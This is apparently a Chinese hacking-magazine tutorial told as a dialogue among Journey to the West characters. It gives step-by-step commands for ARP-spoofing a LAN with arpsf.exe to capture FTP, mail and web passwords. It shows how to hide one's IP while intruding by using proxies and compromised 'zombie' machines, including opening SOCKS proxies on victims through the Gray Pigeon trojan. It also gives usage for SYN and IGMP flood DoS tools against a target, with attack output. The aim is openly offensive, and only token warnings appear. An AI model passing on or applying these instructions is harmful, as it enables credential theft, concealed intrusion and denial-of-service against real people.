“大师兄，你说的共享环境和交换环境我还是不太清楚怎么区分呢？”

“好的……如果 C 或者 D 想看数据包的话，只需要把自己的网卡设为‘混杂模式’就可以了。”



“而交换机只有在第一次不知道端口对应电脑时，才会给每个人发一个数据包，并记录 MAC 地址与端口号（ARP 表）。之后发给 B 的包只从 B 对应端口发出，其他电脑就难以嗅探。”



“那是不是使用交换机就不用担心被嗅探了啊？”

“当然不是。ARP 缓存表是动态的，攻击者仍可通过伪装等方式实施 ARP 欺骗……”

比如 A 和交换机说自己就是 B，那么以后凡是发给 B 的数据都会被 A 接收到；然后 A 再告诉 B 自己是网关，那么 B 发给网关的数据也会发到 A 那里去。A 在中间只要做一个转发，就能轻易截获到 B 的所有数据了。如图 4。



图 4

> “啊呀呀！头大了头大了……”八戒一脸的不耐烦。

“好了，既然讲原理你不爱听，那我们就来看实战好了，这次我就用沙僧的电脑来嗅八戒你的密码。使用的工具是 **arpsf.exe**。在 CMD 下输入 **arpsf.exe** 后，有可能会出现这个对话框，这是因为没有安装 winpcap 驱动的缘故。执行该工具自带的 **wpcapinstall.exe** 就可以安装好这个驱动了。”如图 5 和图 6。



图 5



图 6

这个程序的用法如下：

| 参数 | 说明 |
|---|---|
| -si | 目的 IP（可多项） |
| -sp | 源端口 |
| -dp | 目的端口 |
| -w | 嗅探方式 |
| -p | 嗅探协议（TCP/UDP/ICMP） |
| -m | 最大记录文件 |
| -o | 文件输出 |
| -hex | 十六进制输出到文件 |
| -unecho | 不回显 |

```auto
choosetype
-index
-unfilter
-ow
timeout
-shiftsmtp
-sniftpop
-sniftpost
-sniftftp
-sniftelnet
-snifpacket
-snifall
-onlycheat
-cheatsniff
-reset
-t [网关ip]
-c [欺骗者ip] [mac]
  [受骗者ip]
  [欺骗次数]

Example:
arpsniffer -p TCP -dp 25,110 -o f:\1.txt -m 1 -si sniffpacket
arpsniffer -snifall -cheatsniff -t 127.0.0.1 -c 127.0.0.254
arpsniffer -onlycheat -t 127.0.0.1 -c 127.0.0.2 00221445544 -time 100 -reset
```

我们最常用的一种命令是：**arpsf -cheatsniff -snifall -t 192.168.0.101 -g 192.168.0.1 -p TCP -o result.txt**。输入该命令后出现提示，询问我们要使用何种方式来查询网卡信息：

```text
Choose a method to get adapter list:
=>0 Get By Winpcap Driver
=>1 Get By IpHlpAPI (Can use this in 2003)
Please input your choose num:
```

这里一般选择 1（尽管工具的提示说 1 只能在 Windows 2003 里使用，可是实际上我在 2000/XP/2003 系统中都测试过，全部都可以使用，反而是选择 0 还没成功过）。接着就会列出电脑上所有的网卡，比如：

```text
Try to get adapter list by iphelpapi:

0. \Device\NPF_{E5688D92-EDAE-43F4-907F-528487CA74F6}
1. \Device\NPF_{4549739A-1C83-41CE-A836-F36C9A881D2B}
2. \Device\NPF_{020C0A162-50E3-4316-A260-E018FD524560}
```

这时如果我们有多块网卡的话，就要小心地选择了。一般要遵循同级原则，比如我这里三块网卡的 IP 地址分别是：192.168.0.123、192.168.187.1、192.168.136.1。现在目标电脑的 IP 是 192.168.0.101，那么我们自然要选第一块，也就是输入 0 并回车。怎么知道哪一个对应哪个网卡？其实很简单，打开注册表，找到 `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Tcpip\Parameters\Interfaces\` 分支，认真看看就知道了。不过好在大多数情况下服务器都只有一块网卡，不用这么麻烦。

## 小马快跑



这样做好后，本机（这里是 192.168.0.123）便成了网关（192.168.0.1）与目标机（192.168.0.101）的中间人了。使用 **sniffall** 参数可以嗅到所有的信息，比如 FTP 密码、POP 邮件密码、POST 网页提交信息包含的密码等敏感信息，而 **-p TCP** 则表示只保留 TCP 协议的数据包……我们只需要打开保存嗅探结果的文件 `result.txt`，搜索“嗅探结果”四个字，就会找到我们需要的东西，如图 8。



> “太好了，那我现在就开始嗅探了，我要嗅整个网络，把别人的帐号和密码全都嗅过来。”

“呆子，你忘了我刚才说过的吗？嗅探只是嗅局域网的，你所使用的电脑必须和你想攻击的目标电脑在同一个交换机下才可以，否则不天下大乱了？”

“悟空，那为师如何才能得知自己与目标机是否在一个交换机下呢？”

“现在比较流行的方法有两个，一是使用 `tracert` 命令。”

`tracert` 命令是用来检查到达目标 IP 地址的路径并记录结果。Tracert 的使用很简单，只需要在 tracert 后面跟一个 IP 地址或 URL，Tracert 会进行相应的域名转换，例如：


表示本机到达 192.168.0.100 是直接访问的，没有经过任何其他路由器，也就是说本机与 192.168.0.100 在同一个交换机下……另一种方法是通过计算 IP 地址与掩码，看对方的 IP 是否落在自己的同一个网络号里……

假设本机 IP 为 219.*.240.70，那么我们使用 Superscan 扫描器扫描范围设为 219.*.240.1 到 219.*.240.255，然后在“主机和服务扫描设置”处将 TCP 端口和 UDP 端口统统取消，只保留“查找主机”，如图 9。扫描完一遍后，马上在 CMD 中执行命令：`arp -a`。


查看本机的 ARP 表，如果可以得到对方的 MAC 地址，并且状态是 dynamic 的，往往就可以嗅探了，如图 10。


“还记得以前有人问过一个问题，说如果一台服务器补丁打得很全，网站的安全性也很高，要怎么入侵。现在大家知道了吧？我们可以首先寻找与目标机在同一个网段的电脑，找一台安全性不高的‘人手’之后，再嗅探目标机，看是否能得到一些 FTP 密码之类的敏感信息……”

“实际上今天我只介绍了 2 个嗅探工具的使用，Windows 下其实还有很多优秀的工具，但是如果大家对网络了解不够的话，即便我教了再多工具的使用，大家也不见得能够掌握……比如 OSI 七层模型或者 TCP/IP 模型，这将有助于大家对嗅探原理的深入了解，以后使用起工具来也会得心应手些。”

### 让菜鸟也成为脱壳黑客

#### 悟空也闯关

盼星星，盼月亮，终于盼到了五一长假。在这阳光明媚、凉风习习的日子里，外出旅游放松一下心情是多么惬意的事情啊！这不，悟空就带着菜鸟学堂的众学员一起到了首都北京来参观《黑客 X 档案》杂志社……

八戒吃着盒饭上台：“春风吹，战鼓擂，比起吃饭谁怕谁！”西装革履的唐僧用很鄙夷的态度看着八戒狼狈的吃相：“不要跟你出来，整个档次太低了！这会儿工夫你吃三盒了，整个杂志社会是韭菜味！一会儿见到 sagi 你们要把我这个师傅放在眼里，别什么实话都往外说。一切听从为师的指示，明白了吗？”悟空与沙僧众人齐声回答：“Yes Sir!”

sagi 黑着眼圈上台：“对不起大家，我来晚了，昨晚没睡好！”悟空：“sagi 啊，这么些年没见了，我们头回上北京，也不知道给你带点啥。这样吧，昨儿逮了些肉鸡，一会送你吧！”“是吗？那太好了，我正想找个好肉鸡做代理服务器呢。”sagi 感谢道。

八戒好奇道：“猴哥，什么是代理服务器啊？”在 sagi 面前，悟空这个学堂专职教师自然不敢怠慢：“代理服务器英文全称是 Proxy Server，其功能就是代理网络用户去取得网络信息。形象地说：它是网络信息的中转站。在一般情况下，我们使用网络浏览器直接去连接某个 Internet 站点取得网络信息时，须送出‘请求信号’来得到回答，然后对方再把信息以 bit 方式传送回来。代理服务器是介于浏览器和 Web 服务器之间的一台服务器，有了它之后，浏览器不是直接到 Web 服务器去取网页而是向代理服务器发出请求……”

……而且，大部分代理服务器都具有缓冲功能，就好像一个大的 Cache。它有很大的存储空间，它不断将新取得的数据储存到本机的存储器上。如果浏览器所请求的数据在它的存储器上已经存在而且是最新的，那么它就不重新从 Web 服务器取数据，而直接将存储器上的数据传送给用户的浏览器，这样就能显著提高浏览速度和效率。

sagi 在一旁解释道：“没错，因为我们这里网速太慢，想玩国外的游戏要常常晕受不了。如果有了高速的肉鸡做成代理，这样以后玩游戏的时候就不怕卡了。”（虫虫：那就该害怕被 BOSS 发现了吧），如图 1。


图 1

悟空接着补充：“还有的时候，公司在网关处禁止了 QQ 的使用（比如禁止了源端口为 4000 的数据包通过），我们也可以在本机安装一个代理服务器软件，这样 QQ 数据包通过代理服务器软件发送出去以后源端口就不再是 4000 了，从而达到突破封锁的目的！”

唐僧听得兴趣盎然：“没意思，我又不玩游戏也不怕没 QQ 使用，和黑客技术无关的东西我一点兴趣也没有！”悟空：“师傅，这你就错了，其实最需要代理的反而就是那些经常玩黑的高手！要知道，平时我们入侵的时候会留下大量的痕迹在目标服务器的日志里（详见本期主题乐园），比如我们的 IP 地址，如果对方要追查起来，是很危险的！”

“可是如果我们使用了代理服务器的话，要留日志记录的是代理服务器的 IP。这样一来就达到了隐藏自己的目的！”sagi 一看悟空开始进入状态了，边走边说道：“哈哈，你们既然又上起课了，那我也先去工作，一会儿下班了请你们去吃全聚德的烤鸭+老北京炸酱面，千万别客气啊。”

悟空继续滔滔不绝地讲课：“与代理相对应的还有跳板一词。这是因为代理有时候不是很理想，不稳定，不安全（万一是个假的代理，对方暗中把我们的访问信息，比如密码什么的都记录下来了怎么办？），因此我们可以登录到一台高速肉鸡，然后在肉鸡上访问、扫描、入侵，目标机上留下的也就是肉鸡的 IP 地址了。这样的肉鸡我们称之为跳板，有的人为了安全还会增加肉鸡的数量进行多级跳板，更能增加自身的隐蔽性。”

沙僧掏出笔记本：“明白了，大师兄。也就是说，代理服务器可以是别人提供的，或者在自己的机器上安装都行，而我们通过控制肉鸡进行攻击，对方只能追查到肉鸡，这就叫跳板。那么先第一点，我们如何寻找别人提供的代理服务器呢？又要怎么使用？”

“这个问题问得好！其实说白了，找代理服务器就是找提供代理服务的机器。早期人们喜欢通过扫描端口来寻找，典型的工具是代理猎手。不过由于本人极度懒惰，实在不愿意使用这古老的工具，因此我给大家推荐的第一款工具叫 getproxy2.exe，这是一款 HTTP 和 Socks5 代理获取工具。程序直接使用 google 等搜索引擎搜索类似‘代理 每日更新’等关键字获取代理发布网站的 URL，然后连接到这些网站获取代理地址，并自动对代理进行验证。”

“等等，什么叫 HTTP 代理和 Socks5 代理？”八戒不解。

“HTTP 代理：顾名思义，HTTP 代理就是采用 HTTP 协议的代理。我们浏览网页、FTP 上传下载文件就是使用的 HTTP 协议。它通常绑定在代理服务器的 80、3128、8080 等端口上。”

“SOCKS 代理：相应的，采用 SOCKS 协议的代理服务器就是 SOCKS 服务器，是一种通用的代理服务器。Socks 不要求应用程序遵循特定的操作系统平台，Socks 代理与应用层代理、HTTP 层代理不同，Socks 代理只是简单地传递数据包，而不必关心是何种应用协议（比如 FTP、HTTP 和 NNTP 请求）。所以，Socks 代理比其他应用层代理要快得多。它通常绑定在代理服务器的 1080 端口上。所以很明显，除了浏览网页等动作外，我们可能大量地需要 socks5 代理。”

继续说刚才那个工具，我们输入 `getproxy2 -help` 可以得到详尽的帮助，也可以直接双击运行，结果如图 2。


过一会儿就找出了 10 个结果，我们要先验证一下其可用性；这里使用 QQ，打开 QQ 后，单击高级设置，在下方的网络设置里选择相应的代理类型，填入程序搜到的 IP 地址和端口（如果有用户名和密码的话也填进去），最后单击测试……


现在，我们将 IE 设置为通过该代理上网。方法如下：打开 IE 属性，进入连接选项卡，单击局域网设置，然后在“代理服务器”中勾上“为 LAN 使用代理服务器”，填入代理服务器的 IP 地址和端口，如图 5。确定后，我们重新打开 IE 来访问时就会自动通过该代理进行中转了。


如果发现一个网站存在注入漏洞，又害怕自己的 IP 地址在注入时留在对方的 IIS 日志上，我们也一样可以使用 HDSI 的代理功能进行简单的设置。方法是打开 HDSI 的系统设置，填入代理服务器 IP 地址和端口，单击“设置”按钮就可以了，如图 6。


八戒照着悟空的指示做了一遍后，忽然咆哮起来：“猴哥你骗人！这样做我上 http://www.xdxf.net/index.asp 看了一遍后，上面显示的 IP 地址还是我的真实 IP！”如图 7。


悟空看到后呵呵一笑，解释道：“论坛上虽是这样显示的，可是在服务器上查看网络进程和 IIS 日志中记录的可都是代理的 IP 哦，你可以自己测试一下嘛。”

玩游戏或者使用别的程序时，HTTP 代理就不好用了，而网上又不好找到 SOCKS 代理。这时候，我们可以用灰鸽子的打开代理功能让肉鸡打开 SOCKS 代理，选中一台肉鸡后，进入“远程控制命令”，选择“代理服务”，单击 Sock5 代理服务下面的“开始服务”按钮，如图 8。

接下来，安装一个 SocksCap，安装过程很简单，一直下一步就好了，然后再装个汉化补丁。结束后在开始菜单里找到它，运行界面如图 9。

单击“文件”-“设置”按钮打开如图 10 的配置选项。将打开了 SOCKS 代理的肉鸡 IP 地址填入，并将 DNS 设置改为“先尝试由本机再由远程解析”。确定后，将需要通过代理上网的程序拖入 SocksCap 中，如图 11。选择“新建应用程序标识”，出现一个对话框自动填写了应用程序的名称、路径、工作目录，直接确定后就会看到 SocksCap 里有该程序图标。双击 SocksCap 中的图标运行那些程序，这些程序便以代理的 IP 地址出现在了网络中。


图 8


图 12

代理 IP 修改为 218.85.52.*，然后将 superscan 拖到 SocksCap，运行，扫描范围是 10.0.0.1 到 10.0.0.254，结果如图 13。看到了好几台存活主机！（这样自己的真实 IP 地址也可以被隐藏起来。）


图 9


图 10


图 13

“哇！猴哥真厉害！”

八戒看到用灰鸽子就可以做这么多事情，兴奋得不得了……


图 11

悟空听到这话赶忙过去检查了一番，发现了原因：“你这当肉鸡的那台机，要么是在内网里，要么是使用了防火墙。即使它打开了 1080 端口，你也连不上去！不过不用担心……”

“这么方便？！”八戒等人皆瞪大了眼睛，一副不敢相信的样子。

悟空眼看快到下班时间了，清了清嗓子：“那当然了！开动脑筋，代理其实还可以做更多的事的！……”

打开灰鸽子的“工具”菜单，选择“内网端口映射”，在最下方配置好一个服务端程序 Vport1.0.exe 给自己运行……在第二行处选择将对方的 1080 端口映射到本地的 1080 端口……

- http://www.cnproxy.com/index.html  
  中国代理网，比较专业的一个网站……
- http://info.listonline.net/index/proxyshow.aspx  
  ……代理实时更新……
- http://daili.nfan.org/  
  一个网络爱好者制作的代理发布站。

尾声中继续叙述众人后续行动与感叹。（文中涉及到的工具 getproxy2.exe、SocksCap、superscan 已经收录于光盘中）

## 暴死版的菜鸟攻击——DDOS


“我说猴哥，跟你学了这么长时间技术了，大大小小的网站是搞到了不少，掌握木马也控制了不少的个人肉鸡。可是，最近我发现有个无耻的家伙老是来骚扰我家姐姐，我扫描他的 IP 地址，发现端口倒是开了不少，可为什么漏洞也没有啊，嗅探也嗅不出个什么东西，都快气死了，猴哥告诉我该怎么样才能整整他吧！”

悟空听了八戒又一次的“诉苦”，沉默了一会儿，开口道：“对于这种几乎没有任何漏洞的个人用户，如果只是想整整他的话，倒不是很难。我们可以使用拒绝服务（Denial of Service，简称 DoS）攻击，让他的电脑死机甚至重启。”

八戒一听有戏，两眼放光流着口水道：“哇！就知道猴哥最厉害了！快教我，快教我！”

“不过，这种技术利用起来非常简单，防范却非常困难，因此不能轻易教给心术不正之人，以免危害到太多无辜的人……”

八戒看悟空卖起了关子，赶紧拍马屁求学。悟空笑道，DoS 里最常见的手法之一是 SYN Flood，这属于当前网络协议缺陷被利用的典型方式。

- 1. A 和 B 说：“你好，我是 A”
- 2. B 和 A 说：“A，你好，我收到了你的消息，我是 B”
- 3. A 和 B 说：“B，你好，我也收到了你的消息了”
- 4. 于是 A 和 B 知道彼此都能听到对方声音，TCP 连接建立，随后开始正式传输数据。
- 5. SYN Flood 的变形说明：A 对 B 伪造源地址发送 SYN，B 回应给伪造地址，B 的半连接队列持续占用，资源被耗尽后会影响正常服务。

右栏继续解释了 SYN Flood 原理：主机 B 收到大量伪造源地址的 SYN 后，会反复分配资源并等待确认，导致半连接被占满，出现死机、重启或服务不可用。由于网络带宽或主机资源被恶意消耗，正常用户无法访问服务，因此称为“拒绝服务”。随后文中说明实操前应先扫描目标开放端口，并给出示例端口（如 445）与工具界面演示。


#### 1. syn.exe

“这是 lion 大哥的作品，运行后提示如下（直接译为中文方便菜鸟）。”随后进入命令参数说明。

```text
Usage:

syn <源IP> <源端口> <目标IP> <目标端口>

<源IP>：伪造的SYN数据包源IP地址
<源端口>：可以设为1-65535之间的任意数，也可随机生成
<目标IP>：要攻击的主机IP
<目标端口>：目标主机开放的TCP端口

示例：
syn 192.168.0.0 0 192.168.0.1 80
syn 192.168.0.0 80 192.168.0.1 80
```

程序运行界面如图 2，按 Ctrl+C 可以终止攻击。

```text
C:\Documents and Settings\Administrator>...syn 192.168.0.0 0 192.168.1.100 445
...
Start SYN Flood ... ->192.168.1.100:445
Ctrl+C to Quit
```


#### 2. xdoS.exe

```text
X-DOS v1.0 - command line d.o.s tool
Usage: xdos <Host> <Ports Scope> [Options]
Host：被攻击主机（IP或主机名）
Ports Scope：目标端口（单个或范围）
Options：如 -t 线程数、-s 源IP 等
例：xdos www.xxx.com 80
例：xdos 192.168.1.1 80,139 -t 5 -s *
```

程序运行界面如图 3。

```text
C:\...>xdos 192.168.1.100 445 ...
Scanning 192.168.1.100 445 ...
mode: SYN FLOOD
thread count: 10
```


#### 3. hgod.exe

```text
Usage:
hgod <Target> <StartPort[-EndPort]|Port1 Port2 ...> [Option]
<Target> 目标IP或主机名
<StartPort> 目标端口
[Option]
-a AttackTime
-h PackSize
-d Delay
-l Speed
-m Mode (SYN/DPDOS/UDP/ICMP/IGMP)
-n Num
-p SourcePort
-s SourceIP
```

- Thread：发送线程（最大约 100）
- 典型写法：`hgod 192.168.1.100 445 -a 1 -b 0 -t 10`
- 表示对 192.168.1.100:445 发起 SYN 攻击，持续约 1 分钟，数据包大小随机

```text
C:\...>hgod.exe 192.168.1.100 445 -a 1 -b 0 -n 65534 -m IGMP
Start IGMP Bomb Attack ->192.168.1.100:445 ...
Ctrl+C to Quit
```


我们用上面三种工具对一台 Windows XP SP2 进行攻击。攻击后目标机不断告警，随后系统资源占用升高，机器变慢甚至无法动弹，如图 6。


在 CMD 中可用 `netstat -an` 查看连接状态。攻击刚停止时可见大量 `SYN_RECEIVED` 连接到本机 445 端口，CPU 使用率居高不下。文中给出的应对建议是开启防火墙或安装防火墙并禁止端口访问。


> “哇！真好玩！一招致人于死地了！”  
> “咳！咳！不是说过了吗？不允许用这个技术做坏事！”  
> “不过，老实告诉你，以前也试过用这些工具……”

## 小鸡快跑


八戒好奇道：“为什么会失败呢？”

